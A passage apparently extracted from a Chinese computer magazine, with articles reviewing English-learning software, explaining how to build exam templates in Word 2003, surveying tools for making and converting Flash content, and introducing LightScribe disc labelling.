软件包含地毯式、攻坚式、迷你式三种学习模式，可以规模化学习，也可以逐词攻克，可以拼写单词，用户可以灵活安排，达到最好的记忆效果。

- ① 迷你式学习
简单窗口，操作更方便。在软件窗口中，可以将单词的音标，英语、汉语解释显示出来，随意选择要播放的单词，设定播放循环方式，延迟时间等参数。该模式和地毯式比较相似，只是界面显示更加简单，干净利落，对于在工作中同时学习单词的人来说是个不错的选择。窗口可以随意调整大小、是否置顶等，使用非常方便。

- ② 地毯式学习
循环学习，记忆更深刻。主词汇窗口中选择单词，可以顺序播放所有单词，通过设定循环次数和延迟时间，可以像地毯式轰炸一样学习英语单词，通过反复循环学习，听、说、读、记忆同步进行，每个单词学习达到几十遍之后，自然可以非常轻松地掌握英语单词的音、形、义，可以非常显著地提高英语听力、口语、阅读能力。该步骤是所有英语学习者都需要走的一个步骤，效果异常显著。

- ③ 攻坚式学习
重点学习，更有针对性。攻坚式学习模式中，有自动播放，词义回想，单词拼写，单词测验等几种学习手段，每种方式都有不同的学习记忆效果，学习的侧重点互不相同。通过一段时间的训练，能够高效快速地记住英语单词，还能保持记忆的长久性以及有用性。

### 4. 潜移默化学英语 V5.5
推荐指数：★★★☆☆
软件下载地址：http://www.softaa.com/

#### (1) 软件简介
采用了逆向法的“听、写、说、背、想”五法并举思想，结合记忆规律曲线原理，利用收听、跟读、录音对比、自动测验、分组记忆、文本朗读等软件功能，来达到学好英语的目的。

#### (2) 特色功能
软件采用逆向学习法并结合记忆规律曲线原理，运用幽默风趣的卡通精灵进行纯正的英语发音，结合极具特色的英语软件听、说、读、写等功能和轻松愉快的学习环境，让用户在不知不觉中提高英语听力。功能主要表现在以下几方面：

- ① 多用户管理
可以用不同的用户身份登陆，并且多用户使用设置互不干扰，每个用户的个性化设置均可独立保存。

- ② 词汇丰富，词库和句库覆盖范围广
主要包括：小学、初中、高中和大学四六级英语，以及大学英语词组、研究生入学考试、自考词汇、成人考试词汇、GRE英语、MBA英语、TOEFL词汇、IELTS词汇等共计53000余条；另外精选了常用英语口语900句、李阳疯狂英语365、走遍美国、新概念英语、名言警句、常用谚语等常用英语句子和情景对话，句子总数达到近30000条；并且支持对词库的任意分组。

- ③ 退出密码管理和自动关机功能
开机自动运行功能，您每次打开电脑，软件便会自动运行，直接开始您的学习过程。另外，可有效地防止其他人擅自改动设置和随意退出本软件。

### 5. 英华金典单词通 V03.05
推荐指数：★★★☆☆
软件下载地址：http://www.powerdict.com/

#### (1) 软件简介
软件运用“自然逻辑法”实现了许多独创的新功能，如按词性记忆、按词根词缀和逻辑组合记忆、按汉英逆向逻辑关联法记忆、边听边看、光听不看、光看不听、生词本等。

#### (2) 特色功能
“英华金典”强调自然语言的动态发展性和实际应用性，将英语知识的内在关联性、整体性和积累放大效应等先进的英语学习方法和学习理念全面阐述给用户，是一本获取优秀英语学习方法和英语学习技巧的英语学习经验“宝典”。

- ① 独创的学习功能
软件具有独特的“创新学习功能”，融入了许多学习英语的心得、秘笈和经验。软件在给出英英自然联想法、双向中心词搭配法、汉英逆向关联法、双向例句应用法、关键词组合定位法、词性分类组合法、词根词缀合成法、搭配验证法和标点辅助法等大量英语学习方法的同时，还针对学生给出了“英华金典高分秘诀”，内容包括了彻底摆脱题海战术、动态统计分析学习法、语法词汇突破法、完型填空突破法、阅读理解突破法、短文改错突破法和书面表达突破法等。

- ② 丰富的词典功能
这款工具可以查阅任意指定的英文单词或词组并且可以给出词语辨析、单词搭配规则、中英文双向解释和例句。软件词汇覆盖面广，包括大学英语四六级、研究生英语入学考试、托福、雅思、GRE、GMAT、许国璋、新概念和职称考试在内的17个大类8万多单词量。

- ③ 灵活的检索功能
对于用户输入要查阅的单词或词组，软件会自动搜索其内置的词库并会按英英自然联想法、双向中心词搭配法和双向例句应用法分别给出该单词或词组的详细释意和辨析。

### 6. 句神英语 V4.56
推荐指数：★★★☆☆
软件下载地址：http://www.d2school.com/

#### （1）软件简介
疯狂英语的创始人李阳老师曾经道出一则学习英语的“诀窍”：“句型是英语速成的最佳途径”，他解释说“学习的对象不应该是孤立的发音、单词、语法，而应该是句子！因为人与人交往的最基本单位是句子”。这款工具正是以“句子”为基本单位学习英语的，软件采用其自主知识产权的教材，为用户合理规划了学习进度和学习内容，注重英语应用能力和交际能力的培养而淡化较枯燥的英语语法。

#### （2）特色功能
软件提供了《句神英语》、特殊情景、疯狂例句、英语100个佳句句型和精彩传神一词一句等教程，用户可以按照软件默认安排的学习进度或自定义的学习进度进行指定学习内容或自选学习内容的学习。在每一课的学习中，用户可以按浏览记忆、跟读训练、单词初记、单词强化、例句强化和听力强化的学习和复习步骤进行学习和训练。此外，软件会通过给出大量的例句和对例句相应组成单词的讲解，让用户尽快理解和熟悉句子。如果用户想集中训练自己的听力和口语，则可以使用软件的一个叫做“句神听霸”的小工具，它具有对教程和用户口语录音的朗读与复读功能，并且可以与所显示的英文句子和句子释义同步。此外，软件还具有多用户支持、学习笔记、学习效果检测、分类词汇浏览、英文歌词赏析、教程打印和学习技巧指导等众多功能。

### 7. 黄河英语通 V2.26
推荐指数：★★★☆☆
软件下载地址：http://www2.skycn.com/soft/11123.html

#### （1）软件简介
《黄河英语通》是一款非常方便、高效的英语单词及会话学习软件。软件具有查字功能，用户可以选择相应词库进行单词的滚动小窗口浏览和背诵。

#### （2）特色功能
首先，软件词汇十分丰富。有7万多个词汇，相当于一本巨大的英汉大字典。还有2000余句经典、实用的英语会话例句，包括：社交英语、办公英语、求职英语、商务英语、电话英语、购物英语、旅行英语、餐饮英语、旅宿英语、体育英语、谚语格言、综合会话等，并且用户还可以自定义库。其次，用户可以根据自己的学习要求对其进行选择，并在屏幕顶层进行自动的随机或顺序播放。该方式既摆脱了枯燥的传统学习方法，又能充分利用在电脑前的许多零碎时间，有效地提高了学习效率，大大增强了对英语单词及会话的记忆能力和应用能力。

通过上面的英语学习软件和资源介绍，不少用户肯定跃跃欲试了。当然，好软件犹如一把锋利的斧子，而砍柴的力气还是出在您自己身上。在学习英语的过程中，还需要平时下工夫，通过软件提高自己在听、说、读、写等方面的能力，这样，掌握英语也就变得很容易了。

# 附相关资源推荐

| 网站名称 | 网站地址 |
| :--- | :--- |
| 英语周报 | http://www.ew.com.cn/ |
| 沪江英语 | http://www.hjenglish.com/ |
| 旺旺英语 | http://www.wwenglish.org |
| VOA Special English- 英语学习频道 | http://www.unsv.com/ |
| 牛津英语网 | http://www.oxford.com.cn/ |
| 教育部考试中心海外考试报名信息网 | http://www.51test.com |
| 无忧雅思 | http://211.147.1.4 |
| 雅思考试专业站 | http://www.ieltsnet.net |
| 疯狂英语俱乐部 | http://www.crazyenglish.org |
| 听力网 | http://www.tingli.com |
| 英文锁定 | http://www.icansay.com |
| 竞学网 | http://www.jxue.com/ |
| 梁睿英语 | http://www.lrenglish.com/armysoft/default.htm |
| 无忧雅思网 | http://www.51ielts.com/ |
| 张鑫友外语研究网 | http://www.starweb.com.cn/ |
| 王迈迈英语 | http://www.wmmenglish.com |
| 英语沙龙 | http://www.es123.com/ |
| 100e 网络英语学习平台 | http://www.100e.com/ |
| 普特英语听力 | http://www.putclub.com/ |
| 中国英语网 | http://www.chinaenglish.com.cn/ |
| 中国博雅英语网 | http://www.boyen.com/ |
| 商务英语网 | http://eng.edu-edu.com.cn/ |
| 金山词霸网 | http://www.iciba.net/ |
| 新东方在线 | http://www.koolearn.com/ |
| 中国日报英语，英语点津 | http://www.chinadaily.com.cn/language_tips/ |
| 英语网址之家 | http://www.haoenglish.com/ |

## “出卷子”原来就是这么简单——Word试卷模板指南！！！

文/TMG lfh

引言：很多文案都有固定的格式，都可以应用模板套用，不必每次都重新排版浪费时间，这里介绍的一种试卷的模板制作方法，给百忙的教师提供了一个制卷的便捷方法，可以大大缓解辛劳园丁的工作压力。我们以下面这个数学高考试卷（见图1）的制作过程为例，详细的为您讲解怎样简单地利用Word2003就可以制作出来试卷的模板。

## 一、制卷过程明白看

### 1. 页面的基本设置
首先我们选择“文件”下拉菜单中的“页面设置”，对纸张大小、排版进行设置。选择“纸张”选项卡，纸张的规格设置为“8开”或者是“B4”，由于试卷中密封线及页脚的关系，可以把左边距和下边距稍微设置大些，如左边距为4厘米、下边距为3厘米，上、右边距均为2厘米。如图2所示。




完成后关闭“页面设置”对话框，选择格式中的“分栏”，把“文字方向”设为横向，分栏中框中输入“2”，这样就把试卷分成了两栏，点取“分隔线”，给试卷两栏加上分隔线。

### 2. 不可忽视的密封线
首先单击菜单栏“插入→文本框”，当然也可以在“绘图”工具栏中直接选择“文本框”，在正文左侧插入一个与正文高度一致的文本框，宽度能放下一行字即可。双击新建文本框的边框，弹出“设置文本框格式”对话框，再“颜色与线条”选项卡中设置文本框填充颜色和线条颜色为“无填充颜色”和“无线条颜色”。如图3所示。


单击文本框的边框，选择文本框，这时候边框填充是小圆点。单击菜单栏“格式→文字方向”，选择最左边一个样式。在文本框中输入“姓名————”、“学号————”、“班级————”等等字样，并居中对齐。在“绘图”工具栏中选择“直线”，在文本框的右侧为试卷画出密封线。在直线的起始位置和结束位置分别单击即可。选择这条直线，在绘图工具栏中设置“线型”为1.5磅。一并选中直线和文本框，单击工具栏“绘图→组合”，将两者合并为一个对象，然后剪切至“剪贴板”上。单击菜单“视图→页眉页脚”，在页眉处粘贴刚剪切下来的组合图，并调整好位置。最后，单击菜单“格式→样式与格式”，把页眉的格式改为“正文”，避免在每一页的最上方会出现一条横线。

### 3. 注明页数和页码
把光标移至试卷左侧一栏中，单击菜单“视图→页眉与页脚”，在“页脚”位置插入一个文本框，边框和填充颜色均为无颜色。首先，在文本框中输入“第 页 共 页”字样，在“第”与“页”之间按Ctrl+F9组合键，插入域特征字符“{ }”，其中输入“={PAGE}*2-1”；在“共”与“页”之间同样按Ctrl+F9组合键，得到域特征字符“{ }”，在其中输入“={NUMPAGES}*2”，然后调整文本框的位置，使得文字在此栏居中。另外，域还可以从菜单栏“插入”中获得，单击“插入→域”在其中选择所需要的域名和公式。如图

## 二、教您几手制卷秘诀小技巧

### 1. 隐藏试卷答案
在题目的相应位置输入答案之后，选中所有的答案部分文字，右击弹出的快捷菜单中选择“字体”，在打开的对话框中选择“隐藏文字”的选项，这样选中的文字就隐藏起来了。要想再看到隐藏的文字，只要单击菜单栏“工具→选项”打开“选项”对话框，单击“视图”选项卡，在其中勾取“隐藏文字”就行了。如图7所示。


这样，答案只能在 Word 文档中看的了，打印出来答案部分是一片空白的。

### 2. 选择题选项的对齐
首先回车进入题目的第二行。按 Tab 键，进入第一个制表位，输入 A，再按 Tab 键进入第二个制表位，输入 B，依次类推输入所有的选项。

然后把光标移至第一行的硬回车符之前，单击菜单栏“格式→项目符号和编号”选择一种编号样式，并做适当的调整。这样就可以了，其他的选择题直接复制粘贴几次就好了。

### 3. 强大的数学公式编辑器 Mathtype
这是一个功能很强大的数学编辑器，数学中所用到的公式、符号、特殊字体等等都可以在其中找到，所见即所得，简单易学。安装好了 Mathtype 之后，它会自动取代原来 Word 本身的数学公式编辑器，用的时候只须单击菜单栏“工具→自定义”弹出“自定义”对话框，单击“命令”选项卡，就可以在右侧的列表中选择“公式编辑器”了。如图8所示。



### 4. 记分得分不可漏
得分和记分只须插入表格就行。在题号之前插入一个表格，选中表格后右击，选择“表格属性”，在弹出的对话框中，选择“文字环绕”，在右侧单击“定位”，在弹出来的“表格定位”对话框中选择“随文字移动”。如图5所示。



### 5. 快捷明了的答案填写表
首先我们以表格形式制作一个答案填写表，表格做好后，按紧 Ctrl 键，选择需要填写答案的单元格，再单击菜单栏“格式→项目符号和编号”弹出“自定义编号列表”对话框，选择其中一种样式，根据情况做出适当的调整。如图6所示。



### 6. 保存模板最重要
在试卷模板完全做好之后，单击菜单栏“文件→保存”，命名，格式选择“模板.dot”，单击保存。至此，一份很通用的试卷模板就全部做完了，以后要制作新卷子时，只须找到做好的模板，双击打开便可以直接在模板上添加修改。

## 不学有术 菜鸟也能制作专业的Flash作品

文 / 忽悠2891

不用多说，想必大家对Flash都有了感知上的认识，而且也都跃跃欲试地想要动手尝试一下。只是Flash的专业程度难倒了不少的“英雄好汉”，这里笔者就将教大家如何另辟蹊径，不用Flash来制作专业的Flash作品；如果你现在还不知道什么是Flash，那本文将带你走一个别样精彩的世界……

## 一、轻松点击，成就绚酷字特效

文字特效的适用范围很广泛，无论是网站Banner，或者是其他应用都少不了它。下面就给大家介绍两款小软件来完成大师级别的文字特效。

- 软件名称：FlaX
- 软件版本：3.00
- 适用平台：Win9x/NT/2000/XP/2003
- 下载地址：http://www.hanzify.org/index.php?Go=Show::List&ID=5102

FlaX是操作简单，生成完美效果的一款软件，新版本更是增添的可添加背景音乐等个性功能。

首先下载并安装FlaX，之后运行桌面的快捷方式即可看见FlaX的主界面。程序很清爽，除了预览区之外，就是特效的设置区，完全的所见即所得操作过程。只要在文本中输入想要实现特效的文字或者单词，并通过“动画属性”、“特效参数设置”，以及“文本属性”对我们的Flash作品进行一系列设置即可完成（如图1）。

最后，通过点选“文件”——“导出为SWF文件”，我们即可将作品保存起来，而且还可以根据自己需要来设定是否循环播放，以及添加超链接地址等选项（如图2）。简简单单，不简单的Flash作品就这样新鲜出炉了。

小提示：除此之外，我们还可以根据自己的需要，将MP3和好看的背景图片都添加到我们的作品中，依次点选“查看”——“背景图片属性”/“声音属性”，即可显示相关的设置窗口（如图3）。还有，在调整文字位置的时候，也可以通过在文字上按住鼠标，直接调整的方式来进行，这样更加直观方便。

- 软件名称：Mix-FX
- 软件版本：1.30
- 适用平台：Win9x/NT/2000/XP/2003
- 下载地址：http://www.skycn.com/soft/32090.html

接下来为大家介绍的Mix-FX，同样可以支持百余种文字特效，而且软件的操作过程完全智能化，但制作出来的效果却十分专业。美中不足，Mix-FX不支持中文。

软件安装在此不作介绍，只要一路按下“NEXT”即可完成安装。双击运行桌面上的快捷方式，即可看见程序的主界面。在制作出精妙的Flash效果之前，先让我们来做一些基本的设置。在“Movie Settings”（画布设置）功能部分，填入具体的数值来设置我们需要的大小。然后在“text”（文字）功能部分的“Enter Text”（输入文字）栏中，输入我们要添加特效的文字，并在“Select Text Effect”（选择文字特效）栏中任意选择一种特效（这只是文字特效），再单击“Update”（预览）按钮，怎么样，还不错吧，如果感觉位置不好，还可以通画布边上的小球来调整（如图4）。

小提示：如果不满意字体效果，我们还可以在“Select Font”（选择字体）栏中选择更多字体；同样我们可以通过中间“Text Effect”（文字特效）选项卡中的“Size”（大小）来调整文字的大小，或者通过“Rotation”（方位）来调整文字的方位，以及通过“Colour”（颜色）来添加文字颜色。

接下来对背景进行一下装饰，这样才更有大师的水准。在中间的选项卡中选择“Background Effects”（背景特效），然后在其中任意选择一种特效（这里的效果也是即时显示在画布中的），这样看起来是不是有大师的感觉了。效）选项部分，我们可以通过修改“Size”来改变特效的大小；通过修改“Rotation”选项，来修改背景特效的方位；通过修改“Colour”选项，来更改背景特效的颜色；以及通过选择“Alarm”选项，来更换背景特效的种类等。

作品制作完毕，单击软件底部的“Save”（保存）按钮，在弹出的对话框中，我们有很多种形式可以选择，而且还可以给文件添加上超级连接。一切设置完毕，单击“OK”按钮，并选择保存的路径即可将作品保存（如图5）。

## 二、家族兄弟，联手打造花样世界

软件名称：硕思闪客巫师
软件版本：2005
适用平台：Win9x/NT/2000/XP/2003
下载地址：http://www.sothink.com.cn/webtools/glanda/index.htm

首先给大家简单介绍下硕思闪客巫师，它是一款功能极其强大，不但可以轻松制作广告横幅、动态文字，以及相册和电子贺卡等效果，而且操作起来还是十分简单。只是未注册版本在作品导出后，会自动加带硕思公司的网站地址，也算是帮硕思做了宣传；如果感觉软件不错，那就用实际行动来支持吧。

下载安装闪客巫师，运行之后，软件会弹出模板推荐，询问制作哪方面的Flash作品。下面以制作“广告横幅”为例给大家说明（如图6）。

表中，有10多种模板效果（如图7），选择合适的效果后，单击“Next”进行下一步设置。

为了突显作品的唯一性，在“替换设置”窗口中，选择“自定义影片的大小，背景和文字”选项，单击“Next”进入到“背景 & 大小设置”窗口，在此我们可以对广告背景、位置，以及广告大小做相应调整，直到自己满意为止（如图8）。单击“Next”进入到“替换对象”窗口。

在接下来“替换对象”窗口中，将自己需要表现的文字替换原来默认的文字即可（如图9），单击“Next”，在“URL 设置”窗口中，设置链接以及链接的打开方式之后（如图10），即可单击“Next”完成作品设置了。

单击工具栏上的“预览”按钮，就可以查看我们刚才的作品了（如图11），如果满意，只要单击“发布”按钮，并选择相应的发布格式以及保存路径，即可将自己的作品保存下来了。

# 超级应用方案特辑·软件

小提示：如果觉得这样还不够标新立异，我们也可以通过选择“空白模板”来自由操作，因为闪客巫师提供了很多动画效果供我们选择（如图 12），关键还要看大家如何发挥想像了。

其实，这只是最最初级的应用，诸如音效的添加等等更具特色的功能还没有给大家介绍，如果感兴趣，还是自己亲自动手尝试一下吧，祝大家好运！

- 软件名称：硕思网页魔法菜单
- 软件版本：4.3
- 适用平台：Win9x/NT/2000/XP/2003
- 下载地址：http://www.sothink.com.cn/webtools/dhtmlmenu/index.htm

与闪客巫师师出同门的网页魔法菜单，在兼备功能强大的同时，操作也是非常简单，真正意义上的所见即所得。下面就让笔者通过网页魔法菜单，来教大家如何制作专业的 Flash 菜单。

首先下载并安装硕思网页魔法菜单；如果我们有安装 Dreamweaver 或者 FrontPage 网页制作软件，在安装过程中选择相关的选项，这样就可以为后面的菜单输出做好伏笔（如图 13），安装之后，运行主程序即可看见网页魔法菜单的整体界面（如图 14）。

为了方便起见，我们就通过魔法菜单本身自带的专业菜单来助我们一臂之力。依次点选“文件”——“新建”——“从模板创建”，然后现有模板中选择自己喜欢的一种菜单模板单击“确定”即可（如图 15）。

接下来我们需要做的就是修改模板中不符合我们要求的部分了。选择需要修改的菜单，然后在下面的“菜单项”功能部分中，即可修改成自己需要的文字，除此之外，我们还可以对鼠标移出、鼠标悬停，以及样式等选项进行设置。至于设置的具体细节，在此不再赘述（如图 16）。

小提示：当觉得菜单数量不能满足我们需要的时候，可以通过单击“插入菜单项”来完成（菜单功能部分第一个方形按钮），如果要添加主菜单，可以在“顶级菜单”处单击该按钮；如果要添加分级菜单，就在相应主菜单处单击该按钮。当然，如果要删除某个菜单，只要单击删除按钮即可（如图 17）。

一切就绪，单击工具栏上的“发布”按钮，并在弹出的“发布”窗口中根据自己的需要选择合适的选项，并按照提示完成发布即可（如图 18）。到此，专业的 Flash 菜单就这样简单的制作完成了。

## 三、个性十足，编制无限典藏回忆

传统相册有着这样或者那样的局限性，在顺应社会发展的今天，能够广为流传的Flash相册成为了人们的追捧。下面就让笔者教大家如何简单有效的制作精美的Flash相册吧！

- 软件名称：Flash Album Creator
- 软件版本：1.58
- 适用平台：Win9x/NT/2000/XP/2003
- 下载地址：http://www.hanzify.org/index.php?Go=Show::List&ID=8875

不求花哨，但求实用，Flash Album Creator就是这样一款Flash相册制作软件，尽管没有过多修饰，却很美丽，而且其简单易行的操作，值得一试。

下载安装并运行Flash Album Creator，在软件主界面中，单击“相册照片列表”旁边的第一个“添加”按钮，然后添加我们想制作成相册的所有相片（如图18），之后单击“Next”按钮，进入到“调整”界面，我们可以对“照片大小”、“背景颜色”等选项进行个性化设置（如图19）。都设置妥当之后，单击“Next”之后进入到的输出窗口，单击“创建相册”，并选择好保存的路径之后，单击“保存”按钮即可完成相册的制作（如图20）。

小提示：如果我们还有相片没有添加完毕，我们可以通过单击“保存方案”按钮，来暂时保存该相册，等全部弄好之后，在通过单击主程序上的“载入方案”按钮导入并制作。

- 软件名称：Flash SlideShow Builder
- 软件版本：2.0
- 适用平台：Win9x/NT/2000/XP/2003
- 下载地址：http://sq.onlinedown.net/soft/32729.htm

如果觉得上面的软件过于简单，我们还有另外的选择，而且是可以添加很多特效的选择。

第一步：首先下载并安装Flash SlideShow Builder，汉化补丁可以到汉化新世纪（http://www.hanzify.org）下载。

第二步：运行软件，通过左侧本地目录添加自己要制作相册的相片，添加完成之后即可在右侧预览区域显示出来（如图21）。

第三步：因为有些图片有些“瑕疵”，所以单击上面工具栏中的“编辑”按钮进入到编辑区域，然后逐一一对不满意的图片进行调整，诸如调整亮度、摆放位置，以及添加文字说明等操作（如图22）。

第四步：当然，还要给相片添加多样的转场效果，通过点选上面工具栏中的“特效”切换到特效区域，然后逐一添加过渡效果即可，通过右侧的预览区域，我们还可以预览效果是否满意（如图23）。

第五步：编筐编篓，重在收口。接下来要为相册选择一款漂亮的主题。点选上面的“主题”切换到主题选择区域，然后在左侧选择自己喜欢的主题，并修改一些相册标题等信息之后，即可完成一个Flash相册的制作了（如图24）。

### 1.模板选择

捷方式即可看见程序主界面。之后我们可以选择软件自带的漂亮模板，选好之后，单击“开始”按钮即可打开我们所选中的模板（如图26）。

### 2.按需修改

打开模板之后，我们可以看见模板的相关情况（如图27）。当然，固定的模板并不能适合所有人的口味，我们需要按照需求来更改和填充模板上的内容，方法很简单，只要双击要修改的部分，即可在弹出的修改框中修改成我们需要的内容了（如图28）。

### 第六步：

制作完成不是目的，我们还要发布成品给朋友看啊。点选上面工具栏中的“发布”按钮，切换到发布设置区域。单击“设置”按钮，选择“保留‘重新播放’按钮”，因为不需要相册无休无止的播放。之后再选择合适的发布格式，即可完成发布了（如图25）。

小提示：也许固定样式也不能满足我们的需求，我们可以通过单击工具条的第三个“Axes”按钮，之后选择自己喜欢的轴形式后（如图29），还可以单击第四个“Labels”按钮来修改坐标轴、数据点的标注等。

## 四、事半功倍，办公也要很闪亮

办公，往往被大家想像的很严肃，没有一丝生气，如果能将灵活多变，简洁流畅的Flash动画应用到办公领域，那么办公将变得不再乏味。

- 软件名称：Rich Chart Builder
- 软件版本：1.0
- 适用平台：Win9x/NT/2000/XP/2003
- 下载地址：http://www.e7w8.com/blogs/article.asp?id=103&page=5

### 1.模板选择

首先下载并安装Rich Chart Builder，因为安装过程十分简单，在此不再赘述。安装完毕之后，直接运行桌面快捷方式即可看见程序主界面。

“RichMedia”按钮，为制作的 Flash 添加个性的背景声音。

### 3.最后发布

万事俱备只欠东风，一切制作完毕之后，该是我们将其发布出来的时候了。点选工具栏的第六个“Publish”按钮，之后选择“发布到Flash”按钮就可以完成的发布了（如图30）。当然我们也可以选择其他诸如FDF格式或者PPT格式等。

就是这样简单，还犹豫什么，赶快行动吧。

小提示：如果我们现在手里有已经成行的PPT演示文档，并且也想把它转换成Flash格式的话，我们也可以通过使用PowerPoint to Flash来完成。软件很简单，下载安装并运行PowerPoint to Flash，选择我们的PPT文件，之后稍加设置就可以改变成Flash格式了（如图31）。下载地址：http://www.hanzify.org/index.php?Go=Show::List&ID=6490

### 五、乾坤挪移，音、视频转换为Flash

网络丰富多彩，音、视频享受无限，为了适应某种需求，我们需要将音、视频文件转换成Flash格式的文件。

- 软件名称：Audio2SWF
- 软件版本：1.0
- 适用平台：Win9x/NT/2000/XP/2003
- 下载地址：http://www.hanzify.org/index.php?Go=Show::List&ID=10717

首先下载并安装Audio2SWF，运行软件之后，依次点选菜单栏中的“音频”一“添加”按钮，选定我们需要转换成Flash格式的音频文件。选定完毕，我们需要对将要输出的Flash音乐做些设置：在“常规”选项部分设置输出路径，以及输出格式；在“音频”选项部分，可以将原本非立体声的音频文件调整成为立体声；在“SWF”选项部分，我们可以对输出的Flash做诸如播放次数，以及什么时间播放等设置（如图32）。

最后，在“播放器”选项部分选定一个比较合适的播放器样式之后，单击主程序上的“导出”按钮（如图33），转换之后的SWF格式音乐可以到之前设定的路径查看（如图34）。

制作完成的Flash音乐，我们就可以随意应用到各个领域，比如个人主页，或者是PPT中了。

- 软件名称：Top Video to Flash Converter
- 软件版本：2.0
- 适用平台：Win9x/NT/2000/XP/2003
- 下载地址：http://www.hanzify.org/index.php?Go=Show::List&ID=11103

博客已经不是很火了，转而有被播客取代之势，在音频转换过后，我们更需要将视频也一并转换。首先下载并安装Video to Flash Converter，运行该软件，清晰简洁的主体界面立即呈现在眼前。通过“添加文件”按钮，将我们事先准备好需要转换成Flash格式的视频文件选定（如图35）。之后切换到“设定”功能区，对输出目录等选项进行相关设置之后返回主界面（如图36）。单击“立即转换”按钮即可开始转换。

超级应用方案特辑·软件

小提示：此外，我们还可以将原本SWF文件直接导出成FLA文件，这样在Flash中打开，可以有身临其境的感觉。方法很简单，只要选择“导出FLA”按钮，并选择保存路径即可完成导出（如图40）。



简简单单就可以学习到别人先进的技术，赶快动手吧。

软件名称：SWF Encrypt
软件版本：3.0
适用平台：Win9x/NT/2000/XP/2003
下载地址：http://www.hanzify.org/index.php?Go=Show::List&ID=11213

为了防止自己作品被别人随意篡改，我们可以通过SWF Encrypt将自己的作品进行加密。



选定完毕之后切换到“文件输出”功能部分，在此分别对“文件输出”以及“输出设定”做相关设置后，单击“加密文件”即可开始加密（如图42）。


加密完成后，加密文件也会出现在SWF区，对比一下吧（如图43）。



SWF加密就给大家介绍到这，大家还是自己动手尝试一下吧。

总结：正所谓条条大路通罗马，并不是只有学会Flash才能制作专业的动画效果，只要我们善于发现，一切都可以变的很简单。

很简单吧，几乎没有任何技术含量。接下来，我们就可以将其上传到互联网与朋友们一同分享了。

## 六、双刃利剑，把持需有度

正所谓盗亦有道，拿来别人的东西学习，的确有些不好，但可以取其精华，提高自身能力，也是提高自身的捷径。与此同时，自己辛苦制作出来的作品，如果不希望别人将其随意篡改，我们可以采用加密的方式将作品保护起来。下面就让我们轻松实现对Flash作品的分析与加密工作。

软件名称：硕思闪客精灵
软件版本：3.3
适用平台：Win9x/NT/2000/XP/2003
下载地址：http://www.sothink.com.cn/flashdecompiler/download.htm

专业成熟的Flash作品有很多，如果能将其中的各种素材以及Flash代码提取出来供自己学习，想必提高一定很快。

首先下载并安装闪客精灵，运行软件之后，通过“文件浏览”窗口选定需要分析的Flash作品，这时该Flash作品就会出现在中间的预览区中；与此同时，在软件右侧的“资源”功能部分，也会将该Flash文件中所包含的诸如声音、图片、按钮、动画、动作等等元素全部罗列出来（如图37）。



如果要查看相关元素，只要选择右侧相关元素之后，该元素即可在中间预览区域显示出来（如图38）。



分析结束后，我们就可以提取相关元素了，选择右侧的元素，然后单击“导出”按钮，选择好保存路径单击“确定”即可完成导出操作（如图39）。由于软件属于试用版，对于导出元素的数量会有一定限制。



## 原来生活可以更美的
——光雕刻录原来就是这么简单！！！

文 / TMG zcy

在特殊的日子里，将你们之间值得回忆的照片或是视频刻录下来送给对方应该说是一个创意很不错的礼物，但是刻录后的所有盘片都长成一个样子岂不是一件很遗憾的事情？那么光雕不失为一种很好的选择，光雕已经问世一段时间，它的特色越来越为大家所推崇，应该说，光雕在激烈的市场竞争中表现出它顽强的生命力。

## 一、光雕概念大揭秘

光雕技术的英文全称为LightScribe，它是由美国惠普公司开发研制出来的一种直接在盘片上利用激光来刻印的技术，能够将盘片的表面刻录成用户喜欢的图案或文字等内容，它利用刻录机的光束来进行蚀刻，不采用化学材料，因此十分具有安全方面的保障，也是十分环保的一种刻录技术，它不但可以使你刻录的光盘能够轻松进行识别，还能个性化你的存储数据，有了它，你就不必为刻录出的光盘那千篇一律的盘面而遗憾了。

爱好刻录存储的朋友，如果你想自己制作清晰而又醒目的光盘标识，如果你想将乐曲的曲目留在盘面上，如果你想把宝宝的照片或是其他图片炫给所有的朋友看，那么采用光雕技术则是你的最佳选择，它可以尽情彰显你的个性，我们来对比一下图1和图2的两张光盘，都一样是宝宝的照片集，可是看上去的差距真的很大，光雕的优势不用说大家就都能一目了然了。




## 二、光雕的运作条件

初识光雕这一概念的朋友大概还不知道我们如何来使用并实现这一技术吧，下面我们就来给大家介绍一下光雕技术的运作条件：

实现光雕刻录，需要三个环节的共同联手，即：光雕刻录机、光雕专用盘片以及支持此项技术的相应刻录软件，正是这三个要素的相互协调才共同孕育了个性而超炫的光雕盘标。

- 何为光雕刻录机？

光雕刻录机已经不是一个新鲜的事物了，经过了一年左右的问世时间，许多公司已经生产出自己的光雕刻录机产品，如飞利浦、明基、三星等。光雕刻录盘是通过一种特殊材料来实现光雕刻录的，涂在光盘上的一层特殊的盘片染料层经过激光的读写发光使得其颜色发生变化而成像，从而为刻录者制作出时尚精美的个性化盘片。此外，与传统的刻录机相比，光雕刻录机的物理结构则多了一个专用的“光学定位设备”，这也是光雕的法宝，它用于将读写的光头准确地定位于雕刻图案位置，从而成像。

光雕刻录机使用的是780nm的激光光束，通过控制光头打孔在盘片上的密集程度来实现显示图像的效果，打孔密集则图像颜色较深，打孔稀疏则颜色较淡。

现在，市场上的光雕刻录机价格越来越便宜，也可以说，有的甚至比普通的全兼容刻录机价钱还要便宜，可是光雕刻录机的各方面性能则是比普通刻录机更加多样化，而且又能够满足我们自己设计盘面的欲望，因此，购买光雕刻录机的人也自然就越来越多了，下面就是一款光雕刻录机（见图3），表面上看与普通的刻录机没有什么差别，可是内部的成就大不相同了。



- 光雕专用盘片

要实现光雕功能，不但要有支持光雕功能的刻录机，还要有与之对应的盘片，它是完成光雕盘片制作的必备条件，目前惠普、威宝、飞利浦等厂商都在生产 CD-R 和 DVD+R 的盘片，专门应用于光雕技术，与普通盘片相比，光雕专用盘片的标识面上覆有一种特殊材料，在光雕刻录机的光头发光时产生反应，针对特定的激光功率发生化学变化，从而产生画面。而普通的刻录盘往往被喷上了盘片类型介绍、容量信息、品牌商标等。我们以 CD-R 光雕盘片为例，它的表层还有由抗紫外线基料和催化剂、稳定剂等构成的图像刻录层，因此其刻录层呈棕黄色。

图4、图5分别为光雕专用盘片的标识刻录面和数据刻录面：

的盘片而言，其技术也相对更为进步和纯熟。但是由于光雕产品的成本以及普及范围等因素，这种真正的彩色光雕盘片目前还没有投入市场。不过，盘片的不断技术革新则一定是市场的导向，相信随着光雕技术的发展，以后将会有更多我们都未知的盘片性能出现。





- 光雕刻录软件

